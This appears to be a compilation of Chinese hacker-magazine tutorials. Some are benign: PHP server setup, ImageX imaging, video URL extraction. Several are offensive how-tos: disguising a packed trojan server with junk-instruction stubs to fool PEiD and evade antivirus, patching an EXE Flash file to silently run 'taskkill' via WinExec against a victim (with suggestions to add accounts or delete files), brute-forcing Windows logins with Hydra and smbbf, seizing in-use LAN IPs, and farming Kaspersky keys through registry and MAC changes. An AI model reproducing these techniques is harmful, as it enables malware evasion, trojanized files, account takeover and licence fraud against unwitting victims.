先生成一个服务端程序（当然选择不加壳），然后给这个服务端加上 ASPack2.12 的壳，如图1。使用 PEID 检测一下，检测出被加了 ASPack2.12 的壳了，如图2。拿出 zeroadd1.0 给加壳过的服务端加个区段，区段名称最好和所要加的花指令匹配。比如说，如果想把 aspack2.12 壳伪装成北斗壳，那么加的区段名称就用 `.nsp`，花指令就加北斗文件头的指令。我们的目标是把 ASPack2.12 壳伪装成 Microsoft Visual C++ 6.0，所以名称就为 `.cdata` 或者 `.text`。至于大小就没什么特别的要求了，但是也不要太大，如图3。


打开 PEID 查看处理过的文件，点“区段”右面的那个小箭头，出现如图4所示的界面，记住我们加的区段 `.edata` 的入口地址，这里是 0000B000。然后点首字节后面的小箭头，出现如图5所示的界面，其中的第一行就是实际入口地址，这里是 00408001。

打开 Peditor1.7，载入我们的服务端，把入口点改成 0000B000，也就是刚才所加区段地址，如图6。

然后打开 OD 载入刚才修改过入口点的服务端，这时 OD 会提示我们程序入口点被指定，不用理会，点确定。从 OD 停留处依次输入如下指令（C++ 的花指令）：

```asm
push ebp
mov ebp, esp
push -1
push 0
push 0
mov eax, dword ptr fs:[0]
push eax
mov dword ptr fs:[0], esp
sub esp, 68
push ebx
push esi
push edi
pop eax
pop eax
POP EAX
ADD ESP,68
POP EAX
MOV DWORD PTR FS:[0],EAX
POP EAX
POP EAX
POP EAX
POP EAX
MOV EBP,EAX
JMP 00408001（这也是原实际入口地址）
```

点鼠标右键选择“复制到可执行文件”，再选择“选择部分”，然后保存。最后使用 PEID 查看一下生成的文件，结果显示是“Microsoft Visual C++ 6.0”，也就是我们前面的静态分析对应的语言（图7）。此时已经完成了对 PEID 的欺骗。我在前面也曾经说过，这种方法还可以实现“免杀”，经过测试，可以过大部分的杀毒软件（本来就是加花免杀，只不过这里用作“伪装壳”）。这种方法的好处就是可以让菜鸟破解者误以为程序没加壳，从而使他的破解路程走得很困难。运用这种方法伪装的程序有很多，最出名的就是“啊啦QQ大盗VIP版”的服务端生成器了。

下面再来看第二种方法，修改壳的文件头指令，这样 OD 就不认识了。但是为了使程序可以正常运行，替换时要注意语句的等效性，这需要一些简单的汇编知识。比如 `+7` 和 `-(-7)` 是相等的，或者前后两句互相调换也可以。不会影响程序执行的地方都可以改。下面进入实战：先使用北斗3.7完整生成 winshellv5.0 的服务端并加壳（生成时不加壳）。这里要注意，在加壳前要先对北斗进行设置：把北斗壳的默认段名改掉，如果不改，别人使用 PEID 看我们处理过的程序时，虽然看不到是什么加的壳，但一看区段名就一目了然了，因为北斗壳的区段名默认为“nsp”。然后使用 OD 载入加过北斗壳的服务端（图8），我们把 `sub ebp, 7` 改成 `add ebp, -7`，再把 `je 004094DC` 改成 `jz 004094DC`（`je` 和 `jz` 都是跳转的意思），相当于什么也不变，一样可以运行，但是 PEID 已经不认识这个壳了（我指的是标准版的 PEID，网上有加强版的也许还可以认出），同样有的杀毒软件也不认识了。


上面的这两种方法可以对付一些初级破解者，把他困在脱壳这里。还可以在免杀过程中，对加壳壳进行一步伪装，以达到完美的免杀效果。

> （本文所涉及到的 ASPack2.12、zeroadd1.0、PE 反汇编工具、OllyICE、PEID 和 Peditor 已收录到光盘中）

## 无限次来获取卡巴斯基激活码

关于杀毒软件的免费使用，像卡巴和金山都有免费的使用期限，卡巴可以申请免费半年 KEY，金山可以申请免费一个月的通行证。如果想继续免费下去，常见的解决方法就是在虚拟机或是别人电脑上再申请一个继续使用。这种方法虽然简单，但实际用起来总有困难，又显得没有技术含量。虽说我们从来本着简单实用的原则，但是作为黑客，不就是捣鼓一些别人看不懂的东西吗？所以我就给大家演示一下卡巴免费激活码的“复杂”申请过程，至于金山就留待各位自己去研究了。

360 安全卫士是靠注册表机制和网卡的 MAC 地址来验证用户是否申请过卡巴激活码，经过修改注册表和网卡的 MAC 地址，可以做到无限次申请。

#### 第一步：删除注册表项

注意，开始前要把 360 安全卫士关闭！

- 选择“开始”→“运行”，输入“Regedit”来调出注册表（图1）。
- 找到“HKEY_LOCAL_MACHINE”→“SOFTWARE”，删除“360Safe”项，如图2。


#### 第二步：修改网卡的 MAC 地址

- 在桌面上的“网上邻居”图标上点击鼠标右键，选择“属性”（图3）。
- 在弹出来的“网络和拨号连接”窗口中一般有两个图标，一个是“新建连接”图标，一个是“本地连接”图标。如果你的电脑上有两个网卡的话，那就有三个图标了。如果你只有一个网卡，那就在“本地连接”图标上点右键，选择“属性”（图4）。
- 在“本地连接 属性”的窗口上部有一个“连接时使用：”的标识，下面就是你电脑上的网卡型号了。点击“配置”按钮，进入网卡的属性对话框（图5）。
- 对话框中有五个属性项，点击第二项“高级”，在“属性”标识下有两项，一个是“Link Speed/Duplex Mode”，这是设置网卡工作速率的；我们需要改的是下面一个“Network Address”。点击该项，在对话框右边的“值”标识下有两个单选项，默认的是“不存在”（图6）。我们只要选中上面一个单选项，然后在右边的框中输入你想改的网卡 MAC 地址（例如：000AEB245932），点“确定”，等待一会儿，网卡 MAC 地址就改好了（图7）。
- 注意：这个选项不是每个网卡都有的，像小编的网卡就不行，这时想修改 MAC 地址可以借助专门的软件。
- 小提示：你可以先获取本机网卡的 MAC 地址，然后根据这个地址来改。获取本机网卡 MAC 地址方法：在 Windows 2000/XP 中，依次单击“开始”→“运行”→输入“CMD”，在 CMD 命令提示符下输入 `ipconfig /all` 回车，“Physical Address” 那一行的后边即 MAC 地址（图8）。


### 第三步：获取卡巴斯基的激活码

- 运行“360安全卫士”→点击“杀毒”→“卡巴斯基查毒”→登录。
- 点击“立即获取卡巴斯基激活码”，成功获取激活码（图9、图10）。


### 巧得六间房 MP4 视频真实地址

最近六间房也出了高清视频，如何下载保存在电脑上呢。我首先想到嗅探类工具，但视频站都改了方法。现在很多情况下只能从页面上想办法了。

首先进入六间房找到高清列表的任意一个地址，例如 `http://6.cn/profile/playlist.php?p=142627`，点击进入播放页（图1）：`http://6.cn/plist/142627/0.html`。等待视频可以正常播放（需较新的 FLASH 播放器，否则可到 Adobe 下载安装），如图2。


现在可以转到 IE 临时文件夹：`C:\Documents and Settings\<电脑名>\Local Settings\Temporary Internet Files`，或在 Internet Explorer 属性中，在常规的 Internet 临时文件里选择“设置”并点击“查看文件”打开临时文件夹（图3）。

在这里找到以 `v*.php` 开头的文件（图4），如果有太多文件可先清理临时文件夹再重复上述步骤。把找到的文件复制到其他目录，用文本查看源码，即可发现真实下载地址，例如：`http://vdn43.6rooms.com/hd/Age_001.mp4`。高清视频格式是 MP4，不是 FLV。


```xml
<title>★高清《冰河世纪(Ice Age)》两部全搞笑动画</title>
<file>http://vdn43.6rooms.com/hd/Age_001.mp4</file>
<pic>http://v1.6-cn/hd/Age_001.mp4.t1.jpg</pic>
```

图5：从缓存 php 文件中提取出的关键字段示例。

### PHP 环境一步步搞定

葬云

今天整理电脑时发现了前一阵子留下的好东西，分享给大家。这个工具的全名叫 Apache+PHP+MySQL 服务器套件……我这个是 04 年的 1.1 版。先把工具（一个自解压包）进行解压缩，默认路径是 `D:\usr`，别轻易改提取路径。接下来看看目录里的文件，直接运行 `install.bat`，成功后会看到提示信息，关闭后就算安装完成了。


我们打开浏览器，输入 `http://localhost`，回车后看到如图5所示页面。OK，如果到这里都没有出错，那恭喜你已经安装成功。下面我们一起来看看程序目录介绍。

| 路径 | 说明 |
|---|---|
| D:\usr\ | 服务器总目录 |
| +--\bin\ | ActivePerl 解释器目录 |
| +--\local\ | 程序目录 |
| +--\apache\ | Apache 程序目录 |
| +--\mysql\ | MySQL 程序目录 |
| +--\php\ | PHP 解释器目录 |
| +--\Zend\ | Zend Optimizer 程序目录 |
| +--\www\ | 网站目录 |
| +--\html\ | 网站根（/）目录 |
| +--\cgi-bin\ | /cgi-bin/ 目录 |

根据这个目录大家应该知道该把网页放哪儿了吧？没错，就是 `D:\usr\www\html`。

Discuz 论坛吧。

我们把从 Discuz! 官网下载的压缩包解压缩，如图6。把 upload 目录移动到 `D:\sxs\www\html` 目录下，更名为 bbs（这个可以随便定），然后打开浏览器，输入 `http://localhost/bbs/install.php`，如图7。


这就是正式安装的界面了，点“同意”后，再点“下一步”，就会看到要求填写数据库的页面。第一个是数据库的 IP 地址，由于我们的程序已经集成了，所以这里是 localhost，默认情况下相当于 127.0.0.1；第二个是数据库用户名，我们这里是“root”；第三个是数据库密码，这里为空；第四个是库名；最后一个表前缀是用来区分相同库中其它程序所使用的数据，一般默认就行。填写完毕后接着点下一步。接下来填上帐号、EMAIL、密码，再点下一步，直到看到如图8所示的页面，就说明你的数据库创建成功，论坛也就算可以使用了。后面就是添加模块、更换风格、检查安全性之类的操作了……

最后再提醒一下，这个工具用来测试还可以，可是安全性就不是很好，会使用不少默认漏洞，所以千万别直接放到网上哟！（本文所涉及到的 Apache+PHP+MySQL 服务器套件和 Discuz! 论坛已收录到光盘中）

### 教你用 QuickBFC 编译批处理文件

深天爽

你是否自己编写过批处理文件？批处理文件以其简单的编写方式、低端的系统软硬件要求和丰富的功能赢得了不少初学小菜的喜爱。只要在 TXT 文件中输入命令，并保存，将扩展名改为 .BAT 就可以直接使用了，既简单又方便，非常适合小菜入门使用。但是，正是由于它的这个特点，也使其变得十分容易被未经授权者简单破解和修改，只要把 BAT 改成 TXT 就可以看到并修改了（其实直接使用记事本打开 BAT 文件就行，不用更改扩展名的），这样自己写的 BAT 也会被人轻易地乱改一通，你忍心这样吗？菜菜们一定要用技术捍卫自己批处理的尊严！

今天，我给大家带来“Quick Batch File (De)Compiler 2.07 完美解密安装版”这款软件，其功能强大，尤其是反汇编功能。我是根据网上的汉化版做的破解版，汉化版居然也要注册，我就顺手给破解了，好事做到底，省了大家 87 美元。它可以将任何 BAT、CMD 批处理脚本编译为 EXE 文件，并可以更改图标及出品公司等内容。此解密版包含编译器（Compiler，v2.0.7.0）和反编译器（DeCompiler，v1.0.3.6）两大程序。酷就酷在它允许用户创建在后台运行的“幽灵程序”，还可以向生成的 EXE 文件中捆绑任何文件并通过命令行调用，此类程序在已有软件的能力在这个版本中进一步增强。

这个对于 XP 用户来说作用尤为明显，尤其是 XP 版系统临时文件特别多。不信你每次开机都运行这款批处理，每次都会删除一大堆临时文件，对于有用的系统临时文件则会提示“另一个进程正在访问，无法删除”然后自动跳过，大可放心。因为我家系统配置不好，所以我把这个批处理设成开机自动启动了。现在，我们可以在“echo”后面这行输入要说的话，在第一行加入“黑客X档案测试专用版”的语句，最后一行加上“欢迎使用黑客X档案测试专用版软件”等个性话句。然后点击上面白色资源一行，文件说明后面填上“X档案测试专用系统垃圾清理软件”，公司名称后面填上“黑客X档案天变资研发部”字样，版本号随便填……

……然后程序图标随便找一个 ICO 文件确定（图2），没有的话可以在 `http://www.bitbug.net/` 网站上传普通图片转换成 ICO 格式并下载，很清晰，不会失真（图3）。文件也在光盘中，方便大家研究，对于系统配置不是很好的 XP 用户也很实用。


接下来介绍特色功能了，点击上面的“捆绑”，可以浏览一个最终可执行的 EXE 文件捆绑，但还是希望大家不要捆绑过大的文件，避免影响操作速度。最后，一切都设置完毕后点击上面的创建按钮，在弹出的另存为框中输入要储存的路径及文件名，如图4。我们打开修改的文件，此时扩展名已经是 .EXE 了，图标和介绍也是我们想要的了，如图5、图6。

大家还是尽量好好使用这款软件，打造我们自己的第一款个人工具吧！EXE 可比 BAT 帅多了啊，还可以顺便绑定个文件。其实未必要绑木马，随便绑点好玩的恶搞下朋友就行了，不要用它搞破坏啊。（本文所涉及到的 Quick Batch File Compiler 已收录到光盘中）

### 什么是 Cookies 注入？

这是目前非常流行的一种攻击方式，普通的注入攻击很好防范，但是注入语句加到 Cookies 中提交就往往被人忽略。当一套程序的 Cookies 没有过滤严重时，就为攻击者打开方便之门，而且还可以无视防注入系统。


### 删除影子，还原系统


最近一位朋友说把我给他安装的影子系统的密码给忘记了，以至于系统根本进不去。一开始还想这个问题像是被手工删除密码文件后导致，但从文件层面下手并不现实。影子系统启动前有“正常、部分还原和全部还原”菜单，于是先从启动信息恢复入手。我先用 Win98 启动盘进 DOS，后来借助“故障恢复控制台”访问 NTFS 分区，找到了与启动相关的 `boot.ini` 及备份文件 `bootbak.ini`，尝试重命名恢复。

重启后虽然出现了系统选择界面，但进入系统后仍提示失败。继续排查后发现系统仍会启动影子控制程序，说明并未真正解除。随后在 `SYSROOT:\WINDOWS\system32\shadow\` 目录查找，删除 `shadowSetting.cxx` 后控制器虽不再启动，但还原状态依旧。

继续根据关键字 `shadow`、`power` 检索并结合文件时间，最终定位到 `snpshot.sys`（位于 `\WINDOWS\system32\drivers`，描述为 shadowsystem）。删除该核心驱动后，系统可正常进入，影子系统被彻底去除。


### 教小菜菜强行占用内部 IP 地址

在内网中，同一时刻无法使用两个相同 IP。若修改到已被占用的地址，系统会出现“IP 冲突提示”，并中止修改。抓包可看到主机在改 IP 时会发送 ARP 请求与 NETBIOS 报文；若收到与本机目标地址相同来源的应答（常称“免费 ARP”），系统就会判定冲突。


既然系统依赖“免费 ARP”来阻止重复 IP，那么可以尝试拦截该应答。文中测试使用 antiarp/ARP 防火墙类工具，启用后再把 IP 改为正在使用中的地址，系统不再立刻弹出冲突提示，几秒后可完成修改（对应图2场景）。


但仅绕过本机检测并不等于可稳定使用该 IP。由于 ARP 协议与同网段主机竞争关系，强占地址后仍可能出现网络时断时续甚至无法上网的情况，因此实战中还需要处理整网层面的地址冲突问题。

## 傻瓜黑客

ping 一个域名，那么它首先会广播一个 ARP 请求报文获取网关的 MAC 地址，网关收到请求报文后，会将请求报文内源 IP 对应的 MAC 地址更新到缓存。这时候另一个同时使用此 IP 的 B 机器将出现断网……

`nbtstat -A 对方IP` 这个命令来获取。但这个方法必须在对方启用 NETBIOS 协议的前提下才行，如果对方没有启用的话，还有一个方法，那就是通过 ARP 协议来获取。只需要 PING 一下对方的 IP 地址，然后使用 `arp -a` 就可以看到对方的 MAC 地址了（图3）。


要获取指定机器的 MAC 地址，我们可以使用 `nbtstat -A` 对方 IP；另外也可通过 ARP 获取。即使对方防火墙屏蔽 ICMP 回送/请求，也能正常获取，因为 ARP 工作在链路层。

当然这个操作得在我们占用对方 IP 前使用，待占用得手后再更改（更改本机 MAC 操作：本地连接→属性→配置→高级→Network Address 填入需要的 MAC）。也可用 antiarp 防火墙工具。到这里，基于 IP 与 MAC 的 ACL 从此成为历史……

### 移动加密破解


前几天正在无聊的时候，一个朋友急匆匆地跑来找我，说他们 U 盘被软件加密过了，但是现在密码忘记了，于是来求我帮忙……简单看了软件介绍：“加密数据的保密性极高，U 盘和移动硬盘加密后，不解密任何人无法看到和使用你的数据”。


不过凭着不怕死的菜虫精神，我还是坚持了下来。粗略地看了一下，那个 U 盘超级加密是依靠软件与密码进行加密解密的，首先试着输入 123456，期待软件有错误提示以便反汇编，但是这个软件没有弹出提示，如图1。另一种方法不行就换另一种吧，这次使用 CMD 试试……

#### 火虫

有一个 UDE.EXE，但是占用空间的不同引起了我的注意，请注意图2和图3的比较。


由此可以看出，加密过的文件是被隐藏在 U 盘里了，不过究竟是怎么隐藏的呢？大家可能已经猜想到了，就是文件命名漏洞……我下载并安装 FILEMON 做测试，监控后得到相关数据（图4）。随后用 FINAL DATA 找到了加密图片的位置，将其保存到其它盘符即可完成破解（图5）。

## 傻瓜黑客


图4

有一个加密软件，你顺便帮我破解了吧。晕了，这破解还有买一送一的吗？无奈之下，只好继续开始破解之旅。

这次是“光盘加密大师”，下载了该软件，粗略地看了一下，没有发现什么显著的漏洞，也罢，自己搭建一个平台测试一下吧。

使用 WINISO 修改了一下大师自带的示例光盘 ISO 文件，加入了一个目标文件，选择加密写入密码保存后退出软件。使用 DEAMON TOOLS 载入镜像，运行时弹出了一个对话框，要求输入密码，随便输入发现又弹出提示，于是使用 OD 载入，可惜这个软件的密码并不是明码储存在内存里面的，反汇编无功而返。


图5

试着使用 CMD 进入，发现居然成功了，文件也可以进行复制，大功告成。我得意地放入光盘，输入 `cd` 隐藏目录，结果发现里面什么都没有，难道是哪里出了问题？我不甘心地输入 `cd` 正常目录，居然进去了。原来朋友设置的是隐藏正常目录而显示隐藏目录，但是我们如何得知究竟哪个是隐藏目录呢？这里又要用到 FINAL DATA 了。

使用 FINAL DATA 扫描镜像，此处注意，不要等 FINAL DATA 扫描完成，即使扫描完成了，恢复出来的数据也是不可用的。我们只需要扫描 1—2 秒后取消，得到文件所在的真正路径（即 FINAL DATA 显示出的文件夹路径，如图6），然后在 CMD 下进入该文件夹复制文件即可。

但是如果在 CMD 下复制的话太耗费时间，因此我们可以建立一个共享，在 CMD 下输入 `net share gongxiang=i:\隐藏文件`，然后在运行中输入 `\\127.0.0.1\gongxiang` 就可以打开共享窗口。怎么样，文件是不是出现了，而且我们可以复制出来，至此，对“光盘加密大师”的破解成功结束（图7）。


图6


图7

在破解的过程中走了一些弯路，但庆幸的是最后终于完成了破解。另外再告诉大家一个技巧：你们使用一切手段都无法恢复文件的时候，使用 GHOST 给加密盘做一个备份镜像，然后使用 GHOST EXPLORER 载入，就可以看到加密后的文件了。

朋友看到这里，犹如看到了肉鸡一样兴奋，抓着我就说：“我还要破解这两个软件……”没有什么技术性，只是一个思路，刚入门的菜鸟可以看看，高手就免了吧。最后再提醒一下，这种方法不是对任何加密软件都有效，不要随便乱套用方法。

（本文所涉及到的 Filemon 和 FinalData 已收录到光盘中）

## 傻瓜黑客

### 内网攻击之在线密码破解

杨哲／Christopher Yang【ZerOne】

对很多新手而言，在成功进入对方内网后，比如一些安置还原卡的实验室、网吧环境或者公司内部所谓的内外网隔离环境，都会出现不知从何入手的情况。再加上一些打了所有补丁的 Windows XP，溢出之类的直接攻击基本已经没有了可能。在这种情况下，除了嗅探之外，也可以进行在线密码破解。

Hydra 是由著名黑客组织 THC 出品的一款可以根据需要对 SMB、SSH、SMTP、Telnet、SQL、FTP 等各类主流服务进行在线密码尝试攻击的工具，有 Windows 和 Linux 两个版本。在其官方主页上有一句评价：“A very fast network logon cracker which support many different services”。我们可以在 `http://ircvworld.thc.org/thc-hydra/` 下载到 Hydra 的不同版本。本文我们使用在 Linux 版本基础上改进的图形化版本 HydraGTK。

步骤1：打开 Hydra 的图形版本 HydraGTK，在 Single Target 栏中输入攻击内网目标的 IP 地址，若想同步查看攻击效果，需要点选下方的 Show Attempts（图1）。  
步骤2：打开 Passwords 栏，在 Username 里填写预攻击目标账户，我们以 administrator 也就是管理员账户为例，输入 administrator（图2）。若不确定目标管理员用户名，也可以编辑用户账户名文本文件，直接导入即可。接下来，点选 Password List 选项，在弹出的浏览窗里选择事先制作的密码字典文档（图3）。


## 傻瓜黑客

步骤3：选择 Start 项，点击左下角的 Start 按钮就开始破解了，可以看到在工具观察窗口里会实时显示出详细的破解过程（图4）。根据目标计算机的账户密码强度不同及字典的设置，破解时间会差距很大。图5为破解成功的界面，黑体字中给出了目标账户的密码。

作为功能强大的 Hydra，其图形版本 HydraGTK 继承了全部的功能，但个人认为 Shell 下的版本工作更稳定些。图6为 Hydra 支持的密码攻击服务或协议，其中甚至包含了一些知名的特定异构服务，如 PCAnywhere、VNC 等。该工具的意义因人而异，这里就不再一一举例。


在实际的测试过程中，对于破解目标计算机系统账户登录密码，Hydra 有时会出现假死的情况，这往往是因为目标计算机采用了安全设置的缘故，比如 Windows XP 的审核策略。所以，黑客们也会使用其它工具来反复尝试。

我再推荐一款在线破解 Windows 密码的工具套装 The SMB Auditing Tool。The SMB Auditing Tool，也称为 SMBAT，是一款专门对采用 SMB 环境及 Windows 密码审计的专业工具套装。其中的 SMB Bruteforcer 是一款通过 SMB 协议对 Windows 2000/XP 进行快速密码审计的工具，支持字典模式破解，最高可达 1200/秒。其攻击效率较之 Hydra 的 SMB 破解方面更高，并且不会轻易中断，支持破解结果以文本方式输出。

```bash
smbbf -v -t 192.168.75.35 -p wordlist.txt -u user.txt -r out.txt
```

参数解释：

- `-v`：设置为过程可见
- `-t IP`：指定目标 IP 地址
- `-p 文件`：导入预先制作好的密码字典文档
- `-u 文件`：导入包含用户名的文件
- `-r 文件`：将破解结果输出至某个文件
- `-s`：远程服务器名称（在 Windows 下在线破解时可选）


如图7所示，是对内网一台 Windows 2000 系统进行密码破解，经过 5 分钟左右的尝试，成功得到目标主机 administrator 的登录密码，破解速度为 115 个/秒。如图8，这个破解速度会随着硬件设置以及操作系统版本的不同有所区别。

对于同样的目标，在 Linux 平台下，经过 2 分钟左右的尝试，就成功得到目标主机 administrator 的登录密码，破解速度约 650 个/秒，如图9。最后的破解结果也可以保存到文件中，方便直观查看。

对于采用了有规律可循密码的用户，比如生日、电话号码、身份证号码、常用单词及简单组合等密码，对此类在线攻击应引起足够的重视。一旦黑客破解了账户密码，就可以进一步渗透及破坏，所以应采取谨慎的态度进行个人密码设置。必要时可以通过在线策略中启用密码复杂性设置来强化密码设置安全，不要给恶意攻击者可乘之机。

（文中涉及到的工具 HydraGTK、SMB Bruteforcer 已经收录在光盘中）

### 菜鸟为何要认识 ImageX——欲革 Ghost 的命？

ImageX？啥家伙？可能许多小菜都不认识它。当然是不认识了，认识了还干嘛要别人来介绍呢？但它的来头可不小哦——Microsoft 封装 Vista 这个庞然大物就是靠它那几百 KB 的个头来完成的（图1）！

3. Ghost 太“软弱”了：Ghost 和 ImageX 创建映像文件时都提供了三种模式：不压缩、快速、最大压缩。但是 ImageX 的压缩强度比 Ghost 要大，一个有 3.1G 大小的 Vista 操作系统，经过 ImageX 的“最大压缩”（单一实例存储）后，生成的 WIM 映像体积仅有 740MB，而换为 Ghost 的话就不必说了吧！

#### 一、ImageX 为何欲革 Ghost 的命？

- 1. WIM 映像格式是硬件不可知的，这意味着只需一个映像即可满足许多不同的硬件配置。  
  2. 比较先进地使用压缩文件格式和单一实例存储技术，显著降低文件大小。  
  3. 可使用类似 Windows 资源管理器的方式浏览/挂载映像并更新文件。

- 1. Ghost 太“死板”了：基于磁盘扇区（Sector Based）的传统备份还原工具，硬件抽象层差异会导致兼容性问题；而 ImageX 产生的 WIM 映像是基于文件（File Based）的。  
  2. Ghost 太“野蛮霸道”了：还原操作常需先清除目标分区数据，且误选分区风险高；ImageX 可按目录/文件级进行备份恢复并更灵活存放映像文件。

#### 二、让 ImageX 上岗，Ghost 下岗！

ImageX 是一个命令行程序，因此要从“命令提示符”里运行它。以下是我们最常用到的 3+1 个功能，其它功能大家可以使用 `imagex /?` 命令去摸索。

1. 创建映像：“创建映像”就是创建系统备份映像，命令格式（经过中文意思转换）为 `ImageX [FLAGS] /capture 需备份的目录 映像保存的路径和文件名 ["文件描述"]`。其中 FLAGS 包括 `/BOOT`、`/CHECK`、`/COMPRESS`、`/CONFIG`、`/NORPFIX`、`/SCROLL`、`/VERIFY` 等。

```bash
ImageX /COMPRESS maximum /capture D: E:\Vista.wim "Win Vista"
```

从上图中可以看出使用 ImageX 备份时，会开始扫描目录里的所有文件和文件夹，然后自动排除系统的页面文件、休眠文件等——真不愧是个天生的系统备份（封装）工具！但是，如此高强度的压缩是要付出时间代价的（图3），这与系统包含的大件数目有关。数据多了就得慢慢比较。在图2中显示备份时系统有三万多个文件、六千多个文件夹。尽管很花费时间，但 ImageX 作为备份还原软件的优势还是非常突出的，我平常备份一次 XP 系统连 4 分钟也用不到。

ImageX 不仅可以备份一整个分区，还可以只备份 Windows 文件夹或其它目录（这绝对是 Ghost 办不到的）。命令为 `ImageX /COMPRESS /maximum /capture D:\Windows E:\Vista.wim "Win Vista"`，命令也是大同小异的，可以随便扩展。

```bash
ImageX /COMPRESS /maximum /capture D:\Windows E:\Vista.wim "Win Vista"
```

- 2. 追加映像：“追加映像”就是将系统的所有文件备份到一个已经存在的 WIM 映像中并“覆盖”其同名文件。这个功能的命令为 `ImageX /append 需备份的目录 映像保存的路径和文件名`。

```bash
ImageX /append D: E:\install.wim "Win Vista"
```

有流传说使用这个方法备份 Vista（方式同上）所多占的硬盘空间不会超过 200MB，我想这也得看机子里有多少种不同的文件再说，即使有“技术”也不能乱盖啊！但这样备份产生的映像体积确实很小。

- 3. 应用映像：“应用映像”是将系统备份映像释放到系统分区，进行还原操作。有备份就有还原，命令如 `ImageX [FLAGS] /APPLY 映像保存的路径和文件名 映像卷数 释放的路径`。

```bash
ImageX [FLAGS] /APPLY E:\Vista.wim 1 D:
```

忘了有个“映像卷数”吧？嗯，忘记告诉大家了，其实一个 WIM 映像可以包含许多个分卷，比如将 Vista 和 XP 备份在同一个 WIM 文件里，这是可以办到的（咋越说越强大了），不过要用到上述高级功能，还需要了解许多参数。由于我们刚才备份时没有输入与分卷有关的参数，而且备份后也只有一卷（默认卷号为“1”），那么在还原时就要用“1”这个参数。

Vista 的安装映像 install.wim 中包含了多个分卷，安装时选择不同的分卷就有不同的版本。秘密啊，不要告诉别人哦！那该怎样得知 WIM 映像有哪些分卷呢？

- 4. 查看信息

查看映像信息的命令是 `ImageX /info 映像的路径及文件名`，可在后面看到如图5所示的结果。从中可以看到该映像卷数、压缩方式、描述等等。小菜们有没有看到映像的信息是被“<XXXX>”和“</XXXX>”夹着的，有点像 HTML 代码的形式。其实这些信息原本是以 XML 文件的形式保存的。我们只要将“<WIM>”前面的内容去掉，保存成文本文档，再将扩展名改为 XML，就可以变成这个映像的信息文件了（图6）。

```bash
ImageX /info 映像的路径及文件名
```

利用 WIM 映像不仅可以备份还原系统，还可以打造自己的系统安装盘。一个真正的安装盘，不像 Ghost 那样把文件塞进分区里就算了。可以在映像里面集成驱动、补丁、语言包，还可以实现无人值守安装，自动输入序列号……功能太多了。ImageX 不想革 Ghost 的命也不行啊！

使用原版的 ImageX 就介绍到这里，上述还有“挂载”的功能和其它功能就让小菜自己去研究吧！也只不过是按命令格式来使用罢了！

### 三、ImageX 的“GUI 程序”

如果哪位小菜不喜欢“黑框子”界面的话，还可以使用有 ImageX 功能的 WimTool（图7）。WimTool 是基于 WIMGAPI SDK（ImageX 的部分组件）开发的 Win32 程序，运行前要安装 WimTool 运行库。使用 WimTool 可以很方便地对 WIM 文件进行挂载、修改、创建、分割、查看信息等全功能操作，绝对适合懒人。其界面如图8所示。

具体操作请看其中的说明，保证“WimTool，人人都会用”。使用过 WinMount 的朋友也都知道 WinMount 可以挂载 WIM 映像吧！但是使用 WinMount 挂载 WIM 映像时会很慢，文件超大时（例如 3.82G）更会造成死机（亲身经历），其速度及稳定性都不如 ImageX 或 WimTool。为 ImageX 或 WimTool 指定目录后，它们仅用了一两秒就完成了挂载，ImageX 和 WimTool 果然是处理 WIM 映像的专业软件。

最后提醒一下各位小菜，别以为 ImageX 是个备份还原（系统封装）软件就小看它——WIM 映像将会成为主流的系统映像格式哦。而且研究它并不比入侵一台服务器简单，讲多了我也会觉得头痛@_@……功能实在太多了！各位小菜就好好研究一下吧，不研究哪有你可进。（本文所涉及到的 ImageX 和 WimTool 已收录到光盘中）

### 小小逆向工程整美眉

我爱大饼

逆向工程，对于很多人来说是很难理解的。今天我就手把手教大家怎么使用逆向工程整美眉。

嘿嘿，开始前先讲一下思路，大家只要明白思路再拓展开来就会有很多意想不到的收获哦。我们在一个正常合法的程序上附加一段代码，通过修改原程序的入口点跳到我们加的那段代码上，执行完成我们的代码之后再跳回原来那个正常程序继续执行。

需要的工具就是 Peid（侦壳工具）、OllyDebug（动态反汇编工具，以下简称 OD）和 LordPE（一个修改程序入口的工具），还有一个精彩的 exe 格式的 Flash。

举个简单的例子，目的是在 Flash 播放时，美眉的 QQ 自动退出。完成这个功能要用到一个系统命令 `taskkill /im QQ.exe /f`，还要调用一个 WinExec 函数，这个函数的定义是运行一个指定的应用程序，即我们刚才的那个系统命令。WinExec 函数有两个参数，第一个是命令行，第二个是应用程序的窗口（当然是隐藏，即 SW_HIDE）。

使用 Peid 检查 Flash 的壳，没有加壳（图1）。

我们要用的是它的另外一个功能：在 Flash 中找一段 0 区域来写入我们的代码。单击“EP 区段”右边的“>”按钮打开“节查看器”（图2）。

按鼠标右键选择“搜索全0处”，弹出一个“全0处信息”（图3）。一共有 4 个空段，在里面我们只需记住“RVA”，RVA + 基址 400000 = 内存偏移地址（即后面我们要用的 OD 的地址）。现在选取 text 区段的 0 区域，RVA 为 0013CC98，RVA + 基址 400000 = 0053CC98，就是 0 区域的起点。

打开 OD 载入 Flash，OD 停下，记住程序模块入口 004DC300（图4），我们等下要跳回来哦。按“Ctrl+G”在弹出的输入框中输入刚才那个 0 区域的起点即 0053CC98，点确定后快步来到 0 区域。不要在起点这里写，向下 3 行来到 0053CC9B（图5）。再把字符串“taskkill /im QQ.exe /f”写入这个地址……

继续往下跳 3 行来到 0053CCB7（这个地址成了新程序的入口），现在我们要调用 API 函数，而 API 函数是从右到左调用的，即反过来，我们就要把第二个参数先压进去。先写“PUSH 0（也可以是 PUSH 0，数字 0 代替 SW_HIDE）”，再到“PUSH 0053CC9B”（压入刚才写字符串的首地址），最后“CALL WinExec”，再来一个大跳转回到原来程序的入口即“jmp 004DC300”，写完后如图7所示。

最后鼠标左键拉取全部已经修改过的代码，按右键依次选择“复制到可执行文件”——“选择”，保存退出 OD。再将刚才 PUSH 0 的那个地址作为新程序入口，使用 LordPE 修改保存后（图8）运行一下，QQ 自动退出，Flash 精彩播放，嘿嘿。

大家拓展一下，添加账号、开启端口、删除文件什么的都可以……（本文涉及到的 Peid、OllyDbg 和 LordPE 已收录到光盘中）

### 悲情的“密码最长存留期”

牟晓东

由于需要设置全国计算机等级上机考点，最近几天我开始忙着整理机室。因为上一次备考整理完毕后已经使用 Ghost 软件做好了 .gho 文件的系统备份，所以这次设置没费什么力气，直接将上次的 .gho 文件覆盖进行恢复就行了。谁知在调试过程中却出现了问题：所有的学生机工作站在“网上邻居”中均无法访问服务器 K99，出现提示“无法访问\\K99，此用户的密码已经过期。”（图1）……

